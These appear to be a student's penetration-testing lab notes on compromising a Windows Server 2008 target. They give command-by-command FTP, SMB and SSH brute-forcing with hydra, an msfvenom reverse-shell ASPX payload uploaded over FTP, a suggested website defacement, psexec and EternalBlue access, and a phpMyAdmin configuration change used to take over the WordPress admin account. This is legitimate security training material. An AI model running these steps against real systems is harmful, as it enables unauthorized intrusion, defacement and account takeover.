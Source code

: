 # 7 - Windows Blackbox Exploitation

## <mark style="color:red;">Windows Black Box Penetration Test</mark>

### **Black Box Pentest**

* A Black box penetration test is a security assessment whereby the penetration tester is not provided with any information regarding the target system or network (No IP ranges, system information or default credentials are provided).
* The objective of a Black box penetration test is to accurately test the security of a system or network as an external unprivileged adversary.
* This approach is very useful as it demonstrates how an external attacker with no inside knowledge would compromise a company's systems or networks.

### **Penetration Testing Phases**

* The following diagram outlines the various phases involved in a typical penetration test.

### **Black Box Methodology:**

* Host discovery
* Port scanning & enumeration
* Vulnerability detection/scanning
* Exploitation
* Manual
* Automated
* Post Exploitation
* Privilege Escalation
* Persistence
* Dumping Hashes

### **Scenario & Scope**

* You have just begun your first job as a Junior Penetration Tester and have been assigned to assist in performing a penetration test on a client's network.
* The pentest lead has assigned you to gain access/exploit a host running Windows Server 2008.
* Your primary objectives are:
  * Identify services running on the target.
  * Identify vulnerabilities within the services.
  * Exploit these vulnerabilities to obtain an initial foothold.



## Practical Demonstration

#### <mark style="color:yellow;">Black Box Port Scanning & Enumeration</mark>

{% code overflow="wrap" lineNumbers="true" %}
```bash
# discovering hosts in the network, we can get the target ip 
cat /etc/hosts # ping it to confirm reachability.

# nmap scan 
nmap -sV $ip # scan 1000 commonly used ports.
nmap -T4 -PA -sC -sV -p 1-10000 $ip -oX nmap_10k # -PA-ack scan, -oX-xml format.
nc -nv $ip 21 # to get banner, but no luck.
# we opened the "http://$ip/4848" on the web browser to take a look at the service, $ip/8080, $ip/9200 etc.

# we get a lot of http service ports based on the nmap scan on line 6, so we view each of them.

service postgresql start && msfconsole # create a workspace for the target (Win2k8).
db_import /path_to_nmapscan # import the scan.
# if you want the OS name to be specified correctly in the "os_name" column in msfconsole db a trick is to use the SMB version module.
search smb_version
use 0
options
set RHOSTS $ip
run
hosts # host name is now specified correctlly.
services # view all imported services.

# we can also do a comprehensive scan
nmap -sV -T4 -PA -sC -p 1-65535 $ip -oV nmap_All # didnt do.
nmap -sU -sV $ip # udp scan.
```
{% endcode %}

#### <mark style="color:yellow;">1 - Targeting Microsoft IIS FTP (port 21)</mark>

<pre class="language-bash" data-overflow="wrap" data-line-numbers><code class="lang-bash"># check for anonymous access with nmap "ftp-anon" script or mannually with ftp $ip, enter "anonymous" as UN, which didnt work.

# we can use hydra to perform bruteforce on the ftp server.
<strong>hydra -L /usr/share/wordlists/metasploit/unix_users.txt -P /usr/share/wordlists/metasploit/unix_passwords.txt $ip ftp # we got some creds.
</strong>
# we can also check if the user "vagrant" exist also
hydra -l vagrant -P /usr/share/wordlists/metasploit/unix_passwords.txt $ip ftp # none exist but we can swap the wordlist and make use of the unix_users.txt in the "-P" option to check also. Save the creds.

ftp $ip # login with admin cred. We discover a .asp file, meaning the web server can execute .asp files....so we can generate a malicious .asp payload, upload it to get a reverse shell.

# using msfvenom to generate payload.
msfvenom -p wimdows/shell/reverse_tcp LHOST=$kaliIP LPORT=1234 -f asp > shell.aspx # we dont need a meterpreter shell here, hence we use normal reverse shell.

# login via ftp using the vagrant user.
ftp> put shell.aspx # upload the payload

# setup msfconsole to setup handler.
use multi/handler
set payload .....
set LHOST, LPORT. ..
run

# execute the file via the browser
# in this case we didnt get a reverse shell, even generating a .asp file didnt work also.

# what else can we do?
# attackers can deface the website since the "index.html" file is accessible in the ftp server.
get index.html

# open and edit, the upload it back.
put index.html
</code></pre>

#### <mark style="color:yellow;">3 - Targeting OpenSSH</mark>

{% code overflow="wrap" lineNumbers="true" %}
```bash
# we can perform a bruteforce, using "varant" and administrator as the user.
# login with the user "vagrant", we got a shell session.

# we can use the "use auxililary/scanner/ssh/ssh_login" module to obtain a meterpreter session, set USERNAME, PASSWORD to "Vagrant".
# upgrade to a meterpreter session "sessions -u 1" - but it failed.

# we can generate a meterpreter payload, and transfer it to the target via ssh, but that's not necessary in this case.

# in this case we can spawn a cmd shell session after loggin in via ssh using the "bash" cmd. Now we have a cmd prompt shell.

net localgroup administrators # check if the user is part of the local group.
whoami /priv # check user permissions.
```
{% endcode %}

#### <mark style="color:yellow;">4 - Targeting SMB</mark>

{% code overflow="wrap" lineNumbers="true" %}
```bash
nmap -sV -sC -p 445 $ip # indepth SMB scan.
hydra -l administrator -P /usr/share.../unix_users_or_password.txt smb # btrute force on smb. Test the "vagrant" user too.

# we can authenticate via rdp, but for now we are working on SMB.
smbclient -L $ip -U vagrant # list the vagrant shares.
smbmap -u vagrant -p vagrant -H $ip # list shares.
enum4linux -u vagrant -p vagrant -U $ip # enumerate other users on the PC.

# enumeratin shares with metasploit.
use auxiliary/scanner/smb/smb_enumusers_domain
set RHOSTS, SMBUser, SMBPass vagrant, run

# we can also use psexec.py script to authenticate.
locate psexec.py
chmod +x psexec.py
python3 psexec.py Administrator@$ip # login with psexec. We are NT AUTHORITY.

# msfconsole also have a psexec module (exploit/windows/smb/psexec).

# what is we have no creds.
# we can use the EternalBlue exploit to gain access to the user.
```
{% endcode %}

#### <mark style="color:yellow;">5 - Targeting MySQL DB Server</mark>

{% code overflow="wrap" lineNumbers="true" %}
```bash
nmap -sV -sC -p 3306,8585 $ip # nmap scans.
searchsploit MySQL 5.5 # but we got nothing.
# perform a bruteforce with Metasploit
search mysql_login
use 0
# we found  out no password for the "root" user.
mysql -u root -p -h $ip # login mysql
show databases; # display dbs.

# we cant access the phpmyadmin page, so what we can do is use the previous SMB module, gain a meterpreter session, download the phpmyadmin file, edit and modify the config options.
# we use Metasploit to exploit the EternalBlue vuln and get meterpreter session.
meterpreter > cd C:\ # we see a folder named "Wamp" this stores web application files, check the "apps" or "Www" folder.

# we also could have identified the "MySQL" cred by taking a look at the "C:\Wamp\www\wordpress\wp-config.php" directory, we can see the MySQL creds.

# back to line 10, lets get the "phpmyadmin" file
meterpreter > cd C:\Wamp\alias\ # we locate the file.
meterpreter > download phpmyadmin.conf # download the file to kali, so you can modify it with nano or vim.
# we can delete other rules there, then modify the "Allow from 127.0.0.1" to "Allow from all".
# upload the modified file, which automatically replaces the default one. confirm it by "cat phpmyadmin.conf".

# for the effect to take place we have to restart the apache service.
shell # spawn a cmd prompt shell.
C:\wamp\alias> net stop wampapache # stops the service.
C:\wamp\alias> net start wampapache # starts the service. Now we are able to access the phpmyadmin page from the browser.

# now we clicl the "wordpress" button, wp_users button, we can modify the "admin" account password. click "Edit", select MD5 in the "user_pass" row and change the password.

# now we can goback to the homepage of the site, and login as "Admin" in Wordpress.
$ip:8585/wordpress/wp-admin # login as admin. This gives us aacces to the entire website.
```
{% endcode %}

####

